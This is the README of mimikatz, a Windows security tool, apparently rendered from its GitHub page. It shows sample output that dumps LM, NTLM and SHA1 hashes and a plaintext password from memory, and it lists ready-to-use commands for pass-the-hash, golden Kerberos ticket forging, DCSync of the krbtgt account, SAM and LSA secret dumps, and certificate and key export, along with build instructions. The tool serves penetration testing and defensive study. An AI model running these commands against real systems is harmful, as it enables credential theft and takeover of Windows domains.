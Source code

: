 # mimikatz

**`mimikatz`** is a tool I've made to learn `C` and make somes experiments with Windows security.

It's now well known to extract plaintexts passwords, hash, PIN code and kerberos tickets from memory. **`mimikatz`** can also perform pass-the-hash, pass-the-ticket or build _Golden tickets_.

```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */


mimikatz # privilege::debug
Privilege '20' OK

mimikatz # sekurlsa::logonpasswords

Authentication Id : 0 ; 515764 (00000000:0007deb4)
Session           : Interactive from 2
User Name         : Gentil Kiwi
Domain            : vm-w7-ult-x
SID               : S-1-5-21-1982681256-1210654043-1600862990-1000
        msv :
         [00000003] Primary
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * LM       : d0e9aee149655a6075e4540af1f22d3b
         * NTLM     : cc36cf7a8514893efccd332446158b1a
         * SHA1     : a299912f3dc7cf0023aef8e4361abfc03e9a8c30
        tspkg :
         * Username : Gentil Kiwi
         * Domain   : vm-w7-ult-x
         * Password : waza1234/
...
```

But that's not all! `Crypto`, `Terminal Server`, `Events`, ... lots of informations in the GitHub Wiki <https://github.com/gentilkiwi/mimikatz/wiki> or on <http://blog.gentilkiwi.com> (in French, _yes_).

If you don't want to build it, binaries are availables on <https://github.com/gentilkiwi/mimikatz/releases>

## Quick usage

```
log
privilege::debug
```

### sekurlsa

```
sekurlsa::logonpasswords
sekurlsa::tickets /export

sekurlsa::pth /user:Administrateur /domain:winxp /ntlm:f193d757b4d487ab7e5a3743f038f713 /run:cmd
```

### kerberos

```
kerberos::list /export
kerberos::ptt c:\chocolate.kirbi

kerberos::golden /admin:administrateur /domain:chocolate.local /sid:S-1-5-21-130452501-2365100805-3685010670 /krbtgt:310b643c5316c8c3c70a10cfb17e2e31 /ticket:chocolate.kirbi
```

### crypto

```
crypto::capi
crypto::cng

crypto::certificates /export
crypto::certificates /export /systemstore:CERT_SYSTEM_STORE_LOCAL_MACHINE

crypto::keys /export
crypto::keys /machine /export
```

### vault & lsadump

```
vault::cred
vault::list

token::elevate
vault::cred
vault::list
lsadump::sam
lsadump::secrets
lsadump::cache
token::revert

lsadump::dcsync /user:domain\krbtgt /domain:lab.local
```

## Build

`mimikatz` is in the form of a Visual Studio Solution and a WinDDK driver (optional for main operations), so prerequisites are:

* for `mimikatz` and `mimilib` : Visual Studio 2010, 2012 or 2013 for Desktop (**2013 Express for Desktop is free and supports x86 & x64** - <http://www.microsoft.com/download/details.aspx?id=44914>)
* _for `mimikatz driver`, `mimilove` (and `ddk2003` platform) : Windows Driver Kit **7.1** (WinDDK) - <http://www.microsoft.com/download/details.aspx?id=11800>_

`mimikatz` uses `SVN` for source control, but is now available with `GIT` too!
You can use any tools you want to sync, even incorporated `GIT` in Visual Studio 2013 =)

### Synchronize

* GIT URL is  : <https://github.com/gentilkiwi/mimikatz.git>
* SVN URL is  : <https://github.com/gentilkiwi/mimikatz/trunk>
* ZIP file is : <https://github.com/gentilkiwi/mimikatz/archive/master.zip>

### Build the solution

* After opening the solution, `Build` / `Build Solution` (you can change architecture)
* `mimikatz` is now built and ready to be used! (`Win32` / `x64` even `ARM64` if you're lucky)
  * you can have error `MSB3073` about `_build_.cmd` and `mimidrv`, it's because the driver cannot be build without Windows Driver Kit **7.1** (WinDDK), but `mimikatz` and `mimilib` are OK.

### ddk2003

With this optional MSBuild platform, you can use the WinDDK build tools, and the default `msvcrt` runtime (smaller binaries, no dependencies)

For this optional platform, Windows Driver Kit **7.1** (WinDDK) - <http://www.microsoft.com/download/details.aspx?id=11800> and Visual Studio **2010** are mandatory, even if you plan to use Visual Studio 2012 or 2013 after.

Follow instructions:

* <http://blog.gentilkiwi.com/programmation/executables-runtime-defaut-systeme>
* _<http://blog.gentilkiwi.com/cryptographie/api-systemfunction-windows#winheader>_

## Licence

CC BY 4.0 licence - <https://creativecommons.org/licenses/by/4.0/>

`mimikatz` needs coffee to be developed:

* PayPal: <https://www.paypal.me/delpy/>

## Author

* Benjamin DELPY `gentilkiwi`, you can contact me on Twitter ( @gentilkiwi ) or by mail ( benjamin [at] gentilkiwi.com )
* DCSync and DCShadow functions in `lsadump` module were co-writed with Vincent LE TOUX, you can contact him by mail ( vincent.letoux [at] gmail.com ) or visit his website ( <http://www.mysmartlogon.com> )

This is a **personal** development, please respect its philosophy and don't use it for bad things!
